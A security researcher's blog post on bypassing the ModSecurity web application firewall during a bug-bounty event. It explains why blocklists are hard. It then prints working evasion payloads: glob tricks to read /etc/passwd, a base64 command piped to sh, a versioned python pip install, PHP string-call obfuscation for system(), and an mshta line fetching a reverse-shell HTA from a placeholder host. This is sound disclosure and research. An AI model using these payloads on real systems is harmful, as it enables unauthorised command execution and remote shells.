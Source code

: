 ```yaml
---
layout: post
title:  "Bypassing ModSecurity for RCEs"
date:   2022-08-29 18:32:00 +0530
author: Somdev Sangwan
tags:   [event, bypass, security]
image: /imgs/thumbs/modsecurity-event.png
permalink: /blog/modsecurity-rce-bypass
description: "A tale of multiple RCE bypasses for ModSecurity WAF."  
---
```


> tl;dr: I bypassed [ModSecurity](https://github.com/SpiderLabs/ModSecurity) for multiple RCEs in a hacking event hosted by [intigriti](https://www.intigriti.com/).

## WAFs 101

Firewalls stop attacks. They can recognize them with their database of various rules that describe what an attack looks like. These rules are created by hand or automated analysis of thousands of actual attacks.
  
A web application firewall is a firewall, for websites.

### Blacklists are hard
`ping` is a tool commonly used to troubleshoot networks. As a WAF designer, you might want to block attempts to run it. But what if user A sends a text message to user B through your WAF,
> your router looks fine, try to ping google.com

That's it. The WAF blocked the message, the user filed a complaint to the website owner. The owner debugged the issue and found out that the WAF was at fault.  
Now prepare for an angry twitter thread to be shoved down your throat, your wife Karen leaving you and taking the kids with her. You are done.

Jokes apart and credit where it's due, writing anti-attack rules for unknown contexts is tough. You need to prioritize false negatives over false positives over multiple levels of security while still protecting against the most common attacks.

With that being said, let me tell you a tale of why I am so cool and such a genius for trying random things until some of them worked.

## Filenames in Linux
> Note: When I say "linux", it means *nix (linux and unix). This applies to the entire article.

It is common knowledge that in linux, wildcards such as `*` and `?` are allowed in filenames. But did you know that character classes are also allowed? If your file is named `test.txt`, you can access it by typing `te[sn]t.txt`. The `[sn]` here is a *character class* which says that the character in this place can be an `s` or an `n` i.e. it will match both `test.txt` and `tent.txt`.

If you add an exclamation symbol (`!`) at the beginning of the character class (i.e. `[!sn]`) it will match everything other than the characters in it (i.e. `s` and `n`).

These character classes notations were not getting detected by ModSecurity, giving us two neat bypasses:

```
cat /etc/pass[w]d
cat /etc/pass[!x]d
```

## Everything is a file in Unix
> "Everything is a file" describes one of the defining features of Unix, and its derivatives—that a wide range of input/output resources such as documents, directories, hard-drives, modems, keyboards, printers and even some inter-process and network communications are simple streams of bytes exposed through the filesystem name space.
> - [WikiPedia](en.wikipedia.org/wiki/Everything_is_a_file)

Every command in linux is ultimately an executable binary file stored in `/usr/bin`. Thus instead of executing `ping`, you can write `/usr/bin/ping` and it will work.

Building on my previous exploit that could only interact with files, I turned that file-access technique into a juicy RCE with  

```
/usr/bin/who[a]mi -a
```

## Utilising the linux utilities
There are some amazing [core utilities](https://en.wikipedia.org/wiki/List_of_GNU_Core_Utilities_commands) that come pre-installed in linux.

I cross-checked them with ModSecurity's rules and found some commands that were missing from the blacklist. With a bit of reading here and there, the `base64` utility caught my eye. As the name suggests, it does [base64](https://en.wikipedia.org/wiki/Base64) encoding/decoding.

The idea was to encode the command as base64, decode it and pass the result to something that can "eval" it as a command.

There were some problems with this plan,
1. base64 utility needed [stdin](https://linuxhint.com/bash_stdin_stderr_stdout/) and the only plausible way to do that was with `echo` (e.g. `echo dW5hbWUgLWE= | base64 -d`). But `echo` was blacklisted, as it should be.
2. `sh` (shell) command can execute stdin as a command. Unfortunately, it was blacklisted too and there is no alternative to `sh`.

I solved the first problem by using `printf` instead of `echo`. It's an echo-like utility that supports string formatting.

The second one seemed like a dead end, the most common outcome in research. I did what researchers do, I decided to pursue other ideas as a break.
It helped, after some messing around I found that if a command isn't followed by any character, it doesn't get detected.

Combining these two bypasses, the final bypass becomes this:
```
printf dW5hbWUgLWE= | base64 -d | sh
```

Here, we base64 encoded a command, used the `base64` to decode it and then used `sh` to execute the decoded command.  
  
The neat thing about this bypass is that you smuggle literally anything and since it's base64 encoded, the WAF won't detect a thing.

## Windows is no different
Hacking is about trying things. Sometimes stupidly obvious, sometimes things you learned from a 4-page forum thread from 2006 and sometimes whatever keys you can press with your blurry sleepy eyes at 4 AM.

I tried the `?` filepath wildcard on Windows and it worked. ModSecurity didn't detect it since the wildcard detection rules were for `/paths/like/this` not `C:\paths\like\this`. Easy.

```
C:\Windows\System32\WindowsPowerShell\v1.0\power?hell.exe -File test.ps1
```

### Programming languages have versions now?
ModSecurity blocked `python xyz`, `python2 xyz` and `python3 xyz`. "Unfortunately", you can also invoke specific versions of the interpreter as `python3.10 xyz` for example. This variation wasn't blacklisted and hence I found a way to install arbitrary malware using python.

```
python3.10 -m pip install malware
```

## Entering through the Windows  
Windows is a gold mine for not-so-well-known features. Some found through a blog of a 16yo reverse engineer, some through Windows 95 guides and some by simply googling "windows malware delivery github".

I found a utility named [mshta](https://redcanary.com/threat-detection-report/techniques/mshta/) which is a windows component that deals with HTA ([HTML Application](https://en.wikipedia.org/wiki/HTML_Application)) files. These files can contain executable VBScript code and there's even a metasploit module to generate malicious HTA files.  
  
ModSecurity didn't detect it which gave me a payload that can download+execute arbitrary VBScript code.

```
mshta http://example.com/reverseShell.hta
```

## PHP Injection

You should check out [OWASP Core Rule Set](https://github.com/coreruleset/coreruleset), the collection of WAF rules used by ModSecurity. The comprehensibly documented rules through comments make it an excellent resource.

While trying to get my PHP function calls through the WAF, I went through the documentation of the [rule](https://github.com/coreruleset/coreruleset/blob/977ccdfb914e6d62b00ae26e2006b75b22e3df6c/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf#L418) that detects them. It was there where I learned that an attacker can obfuscate a function call as:

```
$x='sy'.'tem';
$x(ls);
```

Something clicked immediately, what if I could do this segmentation without a variable? One thing led to another and after a bit of testing, I came up with:

```
return"system"(ls).s;
```

Don't ask me to explain how this one works, I don't know much about PHP. I just tried things that made sense after looking at known bypasses and this one worked in a PHP webpage I created for testing.

### Credits
ModSecurity is an open-source WAF and if you ask me, it's as good as WAFs get. It is almost impossible to bypass it for XSS, the rules are that good.

Shoutouts to them for maintaining such an important and free project responsibly and thanks to intigriti for hosting this hacking event and inviting me.

Until next time, fellas.
